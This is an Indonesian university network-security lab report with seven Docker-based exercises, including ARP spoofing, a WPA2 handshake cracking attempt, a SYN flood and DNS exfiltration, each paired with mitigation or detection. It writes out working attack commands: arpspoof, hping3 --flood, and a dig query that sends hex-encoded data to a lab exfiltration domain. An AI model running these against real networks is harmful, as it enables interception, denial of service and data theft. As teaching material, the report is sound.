# LAPORAN UTS NETWORK SECURITY
## Kasus 5 — Dokumentasi Tugas 1–7

**Nama:** Putra Baa'di Zaelani
**NIM:** 24552011131
**Kelas:** TIF RP 24 E CNS
**Mata Kuliah:** Keamanan Jaringan

---

## Penentuan Kasus

Jumlah digit NIM:

`2 + 4 + 5 + 5 + 2 + 0 + 1 + 1 + 1 + 3 + 1 = 25`

`25 mod 10 = 5`

Dengan demikian, kasus yang dikerjakan adalah **Kasus 5**.

## Parameter Praktikum

| Parameter | Nilai |
|---|---|
| Container target | `target-k5` |
| Volume | `vol-k5` |
| File laporan | `laporan-k5.txt` |
| Domain DNS | `k5.exfil.lab` |

---

# TUGAS 1 — DOCKER DAN VOLUME
## Pertemuan 1

### 1. Tujuan
Memahami penggunaan Docker Volume untuk menyimpan data secara persisten dan menguji komunikasi antarcontainer menggunakan Docker Compose.

### 2. Langkah pengerjaan dan perintah

1. `sudo docker volume create vol-k5`
2. `sudo docker run --name w-k5 -v vol-k5:/data alpine sh -c 'echo 24552011131 > /data/laporan-k5.txt'`
3. `sudo docker rm w-k5`
4. `sudo docker run --rm -v vol-k5:/data alpine cat /data/laporan-k5.txt` → `24552011131`
5. `sudo docker compose -p k5 -f b/b1-compose/docker-compose.yml up -d` → container `k5-target-1` dan `k5-attacker-1` berhasil berjalan.
6. `sudo docker compose -p k5 -f b/b1-compose/docker-compose.yml exec attacker wget -qO- http://target` → berhasil menampilkan halaman default Nginx.
7. `sudo docker compose -p k5 -f b/b1-compose/docker-compose.yml down -v` → container dan network dibersihkan.

### 3. Hasil pengujian
File `laporan-k5.txt` berisi NIM (`24552011131`) tetap terbaca dari container baru setelah container pertama (`w-k5`) dihapus, membuktikan data pada volume Docker bersifat persisten. Container `attacker` berhasil mengakses halaman Nginx milik container `target` melalui nama service `target`.

**Bukti screenshot:**


*1. Membuat volume `vol-k5`.*


*2. Menulis NIM ke `laporan-k5.txt` di dalam volume.*


*3. Menghapus container `w-k5`.*


*4. Membaca ulang file dari container baru — data tetap ada (`24552011131`).*


*5. `docker compose up -d` — service target & attacker berjalan.*


*6. Attacker berhasil mengakses halaman Nginx target.*


*7. `docker compose down -v` — pembersihan container & network.*

### 4. Kesimpulan
Docker Volume mempertahankan data meskipun container yang menulisnya sudah dihapus. Docker Compose memudahkan dua service saling berkomunikasi dalam satu jaringan.

---

# TUGAS 2 — KRIPTOGRAFI
## Pertemuan 2

### 1. Tujuan
Memahami enkripsi dan dekripsi menggunakan AES-256-CBC, pemeriksaan integritas dengan SHA-256, serta pembuatan sertifikat digital.

### 2. Langkah pengerjaan dan perintah

```bash
sudo docker run --rm -v "$PWD":/work uts-openssl sh -c \
 'echo isi laporan k5 > laporan-k5.txt && \
  openssl enc -aes-256-cbc -pbkdf2 -salt -in laporan-k5.txt -out laporan-k5.enc -pass pass:kunci-k5-2026 && \
  sha256sum laporan-k5.txt && \
  openssl enc -d -aes-256-cbc -pbkdf2 -in laporan-k5.enc -out hasil-k5.txt -pass pass:kunci-k5-2026 && \
  sha256sum hasil-k5.txt'
```
```bash
sudo docker run --rm -v "$PWD":/work uts-openssl sh -c \
 'openssl req -x509 -newkey rsa:2048 -nodes -keyout key-k5.pem -out cert-k5.pem -days 30 -subj /CN=k5.uts.local && \
  openssl x509 -in cert-k5.pem -noout -subject -issuer -dates'
```

### 3. Hasil pengujian
Hash SHA-256 file sebelum enkripsi dan setelah dekripsi identik:

`22e90e5baa6048f9871927be4fa8af9d141b10a1071cf2b975272db8343f79b5`

untuk `laporan-k5.txt` maupun `hasil-k5.txt`, membuktikan proses enkripsi-dekripsi AES-256-CBC tidak merusak data.

Sertifikat X.509 self-signed berhasil dibuat:

| Field | Nilai |
|---|---|
| Subject | `CN=k5.uts.local` |
| Issuer | `CN=k5.uts.local` |
| Masa berlaku | 24 Nov 2026 – 24 Des 2026 (30 hari) |

**Bukti screenshot:**


*1. Enkripsi & dekripsi AES-256-CBC — hash SHA-256 sebelum dan sesudah identik.*


*2. Sertifikat self-signed dibuat — Subject & Issuer `CN=k5.uts.local`.*

**Perbedaan sertifikat self-signed dan sertifikat yang ditandatangani CA:** Sertifikat self-signed memiliki Subject dan Issuer yang sama karena ditandatangani sendiri oleh pemiliknya, sehingga tidak otomatis dipercaya pihak lain. Sertifikat yang ditandatangani CA memiliki Issuer berupa pihak ketiga tepercaya, sehingga dapat diverifikasi secara otomatis oleh sistem lain.

### 4. Kesimpulan
AES-256-CBC menjaga kerahasiaan data, SHA-256 memverifikasi integritasnya, dan sertifikat X.509 digunakan untuk identifikasi entitas secara digital.

---

# TUGAS 3 — ARP SPOOFING
## Pertemuan 3

### 1. Tujuan
Memahami protokol ARP, melakukan simulasi ARP spoofing pada jaringan laboratorium, dan mempelajari mitigasi menggunakan static ARP.

### 2. Langkah pengerjaan dan perintah

1. `sudo docker network create --internal lab-arp-k5`
2. `sudo docker run -d --name korban-k5 --network lab-arp-k5 --cap-add NET_ADMIN uts-kali-tools`
3. `sudo docker run -d --name gateway-k5 --network lab-arp-k5 --cap-add NET_ADMIN uts-kali-tools`
4. `sudo docker run -d --name penyerang-k5 --network lab-arp-k5 --cap-add NET_ADMIN uts-kali-tools`
5. `sudo docker inspect -f '{{(index .NetworkSettings.Networks "lab-arp-k5").IPAddress}}' korban-k5 gateway-k5` → korban `172.20.0.2`, gateway `172.20.0.3` (penyerang `172.20.0.4`).
6. `sudo docker exec korban-k5 arp -a` (sebelum spoofing)
7. `sudo docker exec -d penyerang-k5 timeout 20 arpspoof -i eth0 -t 172.20.0.2 172.20.0.3`
8. `sudo docker exec korban-k5 arp -a` (setelah spoofing)
9. Mitigasi: `sudo docker exec korban-k5 arp -s 172.20.0.3 $(sudo docker exec gateway-k5 cat /sys/class/net/eth0/address)`
10. `sudo docker exec korban-k5 arp -a` (setelah mitigasi)

### 3. Hasil pengujian

| Kondisi | MAC untuk gateway (172.20.0.3) |
|---|---|
| Sebelum spoofing | `06:07:6d:ed:83:2c` |
| Setelah spoofing | `c2:a5:0b:4f:be:c2` (identik dengan MAC `penyerang-k5`) |
| Setelah mitigasi (static ARP, `PERM`) | `06:07:6d:ed:83:2c` |

**Bukti screenshot:**


*1. Membuat network `lab-arp-k5`.*


*2. Menjalankan container `korban-k5`.*


*3. Menjalankan container `gateway-k5`.*


*4. Menjalankan container `penyerang-k5`.*


*5. Alamat IP korban (`172.20.0.2`) dan gateway (`172.20.0.3`).*


*6. Tabel ARP korban sebelum spoofing — gateway di MAC asli `06:07:6d:ed:83:2c`.*


*7. Menjalankan `arpspoof` dari `penyerang-k5`.*


*8. Tabel ARP korban setelah spoofing — gateway berubah ke MAC penyerang `c2:a5:0b:4f:be:c2`.*


*9. Menerapkan static ARP sebagai mitigasi.*


*10. Tabel ARP korban setelah mitigasi — gateway kembali ke MAC asli dengan status `PERM`.*

**Mitigasi lain selain static ARP:** Dynamic ARP Inspection (DAI) pada switch, yang memvalidasi setiap paket ARP terhadap basis data IP–MAC tepercaya (misalnya dari hasil DHCP snooping) dan menolak paket ARP yang tidak sesuai.

### 4. Kesimpulan
ARP spoofing berhasil mengubah pemetaan IP–MAC gateway pada tabel ARP korban. Static ARP efektif memulihkan pemetaan yang benar dan mencegah ARP reply palsu diterima kembali.

---

# TUGAS 4 — ANALISIS WPA2 HANDSHAKE
## Pertemuan 4

### 1. Tujuan
Memahami proses autentikasi WPA2 dan menganalisis file handshake menggunakan Aircrack-ng serta wordlist praktikum.

### 2. Langkah pengerjaan dan perintah

1. `ls -lh handshake-k5.cap wordlist-k5.txt`
2. `capinfos handshake-k5.cap`
3. `aircrack-ng -w wordlist-k5.txt handshake-k5.cap`
4. `xxd -l 128 handshake-k5.cap`
5. `sha256sum handshake-k5.cap`

### 3. Hasil pengujian
File `handshake-k5.cap` yang disediakan penguji tidak dapat dianalisis oleh Aircrack-ng: `capinfos` melaporkan file rusak, dan `aircrack-ng` membaca 0 paket serta menyatakan file bukan capture 802.11 yang valid sehingga tidak ada jaringan yang ditemukan. Karena itu, tidak ada hasil **KEY FOUND** maupun **KEY NOT FOUND** yang dapat diperoleh dari file ini — prosesnya berhenti lebih awal pada tahap pembacaan file.

**Bukti screenshot:**


*1. File `handshake-k5.cap` (8.1K) dan `wordlist-k5.txt` (20 kandidat) tersedia.*


*2. Isi `wordlist-k5.txt` (20 kandidat kata sandi).*


*3. `capinfos` melaporkan file rusak/corrupt.*


*4. `aircrack-ng` gagal: "not a regular 802.11 capture", 0 paket terbaca.*


*5. Pemeriksaan header file dengan `xxd` — magic number pcap valid, namun isi tidak sesuai format 802.11.*


*6. Hash SHA-256 file capture.*

**Empat langkah WPA2 4-way handshake (secara konsep):**
1. **Message 1 (AP → Client):** AP mengirim ANonce ke client.
2. **Message 2 (Client → AP):** Client menghasilkan SNonce, menghitung PTK, mengirim SNonce beserta MIC ke AP.
3. **Message 3 (AP → Client):** AP mengirim GTK terenkripsi beserta MIC ke client.
4. **Message 4 (Client → AP):** Client mengonfirmasi penerimaan, komunikasi terenkripsi dapat dimulai.

### 4. Kesimpulan
Aircrack-ng memerlukan file capture 802.11 yang valid untuk dapat menguji kandidat kata sandi terhadap handshake WPA2. Pada praktikum ini, berkas yang tersedia tidak memenuhi format tersebut sehingga analisis tidak dapat dilanjutkan ke tahap pencocokan wordlist.

---

# TUGAS 5 — ICMP DENGAN SCAPY
## Pertemuan 5

### 1. Tujuan
Memahami protokol ICMP dan menggunakan Scapy untuk mengirim paket ICMP serta mengamati respons dari host tujuan.

### 2. Langkah pengerjaan dan perintah

```bash
sudo docker run --rm --network lab-arp-k5 -v "$PWD/kasus/k5-scapy:/work" uts-kali-tools python3 /work/kirim_icmp.py 172.20.0.2
```

### 3. Hasil pengujian
```
Mengirim: IP / ICMP 172.20.0.5 > 172.20.0.2 echo-request 0
TTL balasan: 64
Tipe ICMP balasan: 0
```

**Bukti screenshot:**


*1. Pengiriman ICMP Echo Request dan balasan — TTL 64, tipe ICMP 0 (Echo Reply).*

### 4. Pembahasan Smurf Attack
Smurf Attack merupakan serangan Denial of Service yang memanfaatkan ICMP Echo Request dan alamat broadcast: penyerang memalsukan alamat IP korban sebagai sumber paket, sehingga banyak host dalam jaringan broadcast mengirimkan balasan ICMP kepada korban secara bersamaan. Mitigasi dapat dilakukan dengan membatasi respons terhadap ICMP broadcast dan menerapkan penyaringan paket pada jaringan.

### 5. Kesimpulan
Scapy dapat digunakan untuk membuat dan mengirim paket ICMP secara terprogram, dan praktikum ini membuktikan mekanisme Echo Request/Echo Reply yang mendasari potensi penyalahgunaan pada Smurf Attack.

---

# TUGAS 6 — SYN FLOOD DAN TCP THREE-WAY HANDSHAKE
## Pertemuan 6

### 1. Tujuan
Memahami proses TCP Three-Way Handshake dan mempelajari simulasi SYN Flood secara terbatas pada lingkungan laboratorium.

### 2. Langkah pengerjaan dan perintah

1. `sudo docker compose -p k5 -f b/b3-syn-flood/docker-compose.yml up -d`
2. `sudo docker compose -p k5 -f b/b3-syn-flood/docker-compose.yml exec target netstat -ant | grep -c SYN_RECV` → `0` (sebelum serangan)
3. `sudo docker compose -p k5 -f b/b3-syn-flood/docker-compose.yml exec -d attacker timeout 15 hping3 -S -p 80 --flood target`
4. Loop pemantauan 10x selama serangan (interval 1 detik) → `2, 1, 0, 1, 1, 0, 0, 0, 0, 0`
5. `tcpdump` saat satu koneksi HTTP (`curl`) dibuat → 12 paket tertangkap
6. `sudo docker compose -p k5 -f b/b3-syn-flood/docker-compose.yml down -v`

### 3. Pembahasan TCP Three-Way Handshake
1. **SYN:** Client meminta memulai koneksi.
2. **SYN-ACK:** Server merespons permintaan tersebut.
3. **ACK:** Client mengonfirmasi, koneksi siap digunakan.

### 4. Hasil pengujian

| Kondisi | Jumlah `SYN_RECV` |
|---|---|
| Sebelum serangan | `0` |
| Selama SYN Flood (10 sampel, interval 1 detik) | `2, 1, 0, 1, 1, 0, 0, 0, 0, 0` |

**Bukti screenshot:**


*1. `docker compose up -d` — attacker & target berjalan.*


*2. `SYN_RECV` sebelum serangan: `0`.*


*3. Menjalankan SYN flood (`hping3 --flood`) selama 15 detik.*


*4. Pemantauan `SYN_RECV` 10x selama serangan berlangsung: `2,1,0,1,1,0,0,0,0,0`.*


*5. `tcpdump` menangkap 12 paket: `SYN → SYN-ACK → ACK`, `HTTP GET/200 OK`, lalu `FIN/ACK`.*


*6. `docker compose down -v` — pembersihan lingkungan.*

Nilai `SYN_RECV` naik dari `0` menjadi `1–2` segera setelah SYN flood dimulai, menunjukkan target sempat menerima permintaan SYN dalam jumlah di atas kondisi normal, meskipun nilainya kembali turun karena koneksi setengah-terbuka cepat timeout/direset pada container.

**Mitigasi SYN flood:** menggunakan SYN cookies — server tidak langsung mengalokasikan resource untuk tiap SYN yang masuk, melainkan menyimpan informasi koneksi dalam nomor urut SYN-ACK yang dienkode, dan baru mengalokasikan resource penuh setelah ACK balasan client terverifikasi valid.

### 5. Kesimpulan
SYN Flood mengirimkan permintaan koneksi TCP dalam jumlah besar yang berpotensi membebani sumber daya server. Pemantauan status koneksi (`SYN_RECV`) dan lalu lintas jaringan membantu mengidentifikasi aktivitas yang tidak normal.

---

# TUGAS 7 — DNS EXFILTRATION
## Pertemuan 7

### 1. Tujuan
Memahami penyalahgunaan DNS sebagai media pengiriman data dan mempelajari cara mendeteksi pola query DNS yang mencurigakan.

### 2. Langkah pengerjaan dan perintah

1. `sudo docker compose -p k5 -f b/b4-dns-exfil/docker-compose.yml up -d`
2. `echo -n 24552011131 | xxd -p` → `3234353532303131313331`
3. `sudo docker compose -p k5 -f b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 3234353532303131313331.k5.exfil.lab @dns` → `10.0.0.99`
4. `... logs dns > dns-k5.log`
5. `python3 kasus/k9-dns-detect/analisis_dns.py dns-k5.log`
6. `echo 3234353532303131313331 | xxd -r -p` → `24552011131`
7. `sudo docker compose -p k5 -f b/b4-dns-exfil/docker-compose.yml down -v`

### 3. Hasil pengujian
Log `dns-k5.log` mencatat satu query DNS dari container attacker berupa label hex `3234353532303131313331.k5.exfil.lab`, dijawab dengan `10.0.0.99`. Script `analisis_dns.py` mendeteksi query ini di bawah domain induk `exfil.lab` (jumlah: 1) dan menandainya sebagai query mencurigakan karena label subdomain berisi karakter hexadecimal yang panjang. Hasil decoding `xxd -r -p` terhadap label tersebut mengembalikan `24552011131`, sesuai NIM yang digunakan.

**Bukti screenshot:**


*1. `docker compose up -d` — service DNS & attacker berjalan.*


*2. Konversi NIM ke hexadecimal: `3234353532303131313331`.*


*3. Query DNS dikirim, dijawab `10.0.0.99`.*


*4. Log DNS (`dns-k5.log`) dan decode hex kembali ke NIM.*


*5. Hasil analisis `analisis_dns.py` — `exfil.lab: 1`, ditandai sebagai query mencurigakan.*


*6. Verifikasi ulang decoding hex → NIM `24552011131`.*


*7. `docker compose down -v` — pembersihan lingkungan.*

**Mengapa teknik ini sulit diblokir firewall biasa:** DNS exfiltration memanfaatkan protokol DNS yang hampir selalu diizinkan keluar oleh firewall (port 53), sehingga lalu lintasnya tampak seperti resolusi nama domain biasa dan jarang diperiksa isinya secara mendalam oleh firewall berbasis port/IP.

**Indikator deteksi:** panjang label subdomain yang tidak wajar (berisi string hex/base-berkarakter panjang) dibandingkan domain pada umumnya, yang dapat dikenali melalui analisis panjang string atau entropi pada log DNS.

### 4. Kesimpulan
DNS Exfiltration menyalahgunakan protokol DNS untuk mengirimkan data melalui query, dan analisis log DNS berbasis pola (panjang label, frekuensi per domain) dapat membantu mendeteksi aktivitas semacam ini.

---

# KESIMPULAN AKHIR

Berdasarkan praktikum Kasus 5, tujuh materi keamanan jaringan telah dikerjakan: Docker dan Volume, Kriptografi, ARP Spoofing, Analisis WPA2 Handshake, ICMP dengan Scapy, SYN Flood, dan DNS Exfiltration. Enam dari tujuh tugas menghasilkan bukti sesuai yang diharapkan soal; Tugas 4 menghasilkan bukti berupa kegagalan pembacaan file capture oleh Aircrack-ng, yang didokumentasikan apa adanya sesuai output asli.
